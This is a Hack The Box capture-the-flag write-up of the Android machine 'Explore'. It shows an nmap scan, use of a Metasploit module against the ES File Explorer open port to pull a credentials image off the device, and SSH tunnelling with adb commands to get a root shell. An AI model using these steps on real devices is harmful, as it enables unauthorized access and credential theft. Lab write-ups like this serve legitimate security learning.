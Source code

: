 ```yaml
---
title: "📦 HTB - Explore"
date: 2021-07-29 13:00:00
tags: ["htb", "writeup"]
categories: ["HTB"]
author: "0xNinja"
resources:
- name: "featured-image"
  src: "featured-image.png"
---
```


> Pretty interesting box, first time seeing Android in HTB.

## TL;DR

Exfilter files on device using ES File explorer exploit, get user credentials. Root is straightforward with ADB.

## Footholds

With `nmap` we get the following:

```
# Nmap 7.91 scan initiated Wed Jul 28 14:49:28 2021 as: nmap -A -p- -o nmap.out explore.htb
Nmap scan report for explore.htb (10.10.10.247)
Host is up (0.043s latency).
Not shown: 65530 closed ports
PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey: 
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp  filtered freeciv
33195/tcp open     unknown
[...]
```

* `2222`: SSH server
* `5555`: not interesting, we will see why further
* `33195`: ES File Explorer (with some research)

The only useful port here is `33195`, with a litle research on the web we get that this is possibly a good entrypoint for our exploit.

## User

As this is an easy box ~~and I am lazy~~ I used the forbidden **M e t a s p l o i t**. Using it's `auxiliary/scanner/es_file_explorer_open_port` exploit I managed to exfilter some files off the device:

![Listpics](listpics.png)

We found some Pictures on the device. The `creds.jpg` is very interesting:

![Getfile](getfile.png)

We can now ssh to the device and get `user.txt`.

![creds](creds.jpg)

![User](user.png)

## Root

The idea that came to my mind here was to use ADB to get a root shell on the device. We first need to connect to this device with ADB, so we have to make a tunnel:

```sh
ssh -p 2222 user@explore.htb -L 5555:localhost:5555
```

![Tunnel](tunnel.png)

We can now connect to it:

```sh
adb connect localhost:5555
adb root
adb shell
```

![root](root.png)

![root2](root2.png)

End of the box.

![Rooted](rooted.png)
